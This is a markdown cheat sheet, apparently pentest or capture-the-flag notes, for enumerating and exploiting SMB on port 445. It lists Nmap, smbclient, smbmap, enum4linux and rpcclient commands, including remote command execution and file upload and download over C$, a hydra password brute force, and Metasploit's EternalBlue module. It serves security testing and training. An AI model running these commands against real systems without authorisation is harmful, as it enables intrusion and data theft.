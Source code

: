 # SMB Enumeration & Exploitation (TCP/445)

## Nmap NSE

sudo nmap -p 445 -sV -sC -O <TARGET_IP>
nmap -p445 --script smb-os-discovery <TARGET_IP>
nmap -p445 --script smb-protocols,smb-security-mode <TARGET_IP>
nmap -p445 --script smb-enum-sessions <TARGET_IP>
nmap -p445 --script smb-enum-shares <TARGET_IP>
nmap -p445 --script smb-enum-users <TARGET_IP>
nmap -p445 --script smb-server-stats <TARGET_IP>
nmap -p445 --script "smb-enum-*,smb-ls" <TARGET_IP>
nmap -p445 --script smb-vuln-* <TARGET_IP>
Null / Auth Sessions

smbclient -L //<TARGET_IP> -N
smbclient -L //<TARGET_IP> -U <USER>
smbclient //<TARGET_IP>/<SHARE> -U "<USER>%<PW>"

smbmap

smbmap -H <TARGET_IP> -u guest -p ""
smbmap -H <TARGET_IP> -u <USER> -p '<PW>'
smbmap -H <TARGET_IP> -u <USER> -p '<PW>' -x 'ipconfig'
smbmap -H <TARGET_IP> -u <USER> -p '<PW>' -L
smbmap -H <TARGET_IP> -u <USER> -p '<PW>' -r 'C$'
smbmap -H <TARGET_IP> -u <USER> -p '<PW>' --upload '/root/file' 'C$\file'
smbmap -H <TARGET_IP> -u <USER> -p '<PW>' --download 'C$\flag.txt'

enum4linux

enum4linux -a <TARGET_IP>
enum4linux -a -u "<USER>" -p "<PW>" <TARGET_IP>
enum4linux -n <TARGET_IP>   # check <20> for null sessions

rpcclient (null to start)
rpcclient -U "" -N <TARGET_IP>

enumdomusers
enumdomgroups
lookupnames Administrator

Brute (only when justified)

hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> smb

MS17-010 Quick Check / Exploit

nmap --script smb-vuln-ms17-010 -p445 <TARGET_IP>

# Metasploit

use auxiliary/scanner/smb/smb_ms17_010
use exploit/windows/smb/ms17_010_eternalblue
